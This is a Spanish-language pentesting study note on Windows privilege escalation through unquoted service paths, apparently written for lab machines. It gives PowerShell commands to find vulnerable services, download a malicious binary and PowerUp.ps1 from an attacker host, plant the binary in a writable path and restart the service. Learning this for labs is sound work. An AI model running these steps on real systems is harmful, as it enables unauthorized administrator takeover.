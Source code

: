
## DESCRIPTION

Se basa en encontrar un servicio ejecutado por administrador que se encuentra en una ubicación en la que tenemos permisos para escribir y que no tiene comillas:
![[Pasted image 20230523181427.png]]

#### Mas información
* https://vk9-sec.com/privilege-escalation-unquoted-service-path-windows/#:~:text=When%20a%20service%20is%20created,of%20the%20time%20it%20is).


## EXPLOITATION

### OPTION 1: MANUAL

1. Buscamos un servicio vulnerable, winpeas tambien sirve:
```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName 
```

2. Comprobamos que podemos parar/arrancar ese ervicio y que se encuentra en una ruta sin comillas:


3. Comprobamos los permisos(vemos que tiene scritura en uno de ellos)


4. Creamos un ejecutable y lo trasferiamos a la maquina con el mismo nombre que el de la ruta con espacio, en este caso Current.exe

```
iwr -uri http://192.168.119.3/adduser.exe -Outfile Current.exe

copy .\Current.exe 'C:\Program Files\Enterprise Apps\Current.exe'
```

5. Reseteamos el servicio:

```
Start-Service GammaService
```

### OPTION 2: USING POWERUP

1. Subimos powerup a la maquina vicitma
```
iwr http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1
```

2. Ejecutamos
```
powershell -ep bypass

. .\PowerUp.ps1

Get-UnquotedService

OPCION 1: Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"

# Tambien podemos copiarlo directamente, por ejemplo:

OPCION 2: copy Surveillance.exe "C:\Enterprise Software\Monitoring Solution\Surveillance.exe"


# Reseteamos el servivio y bingo
Restart-Service ReynhSurveillance

```

![[Pasted image 20230523185305.png]]

## MACHINES

* Hack The Box: 

**!!NOTA IMPORTANTE!!** 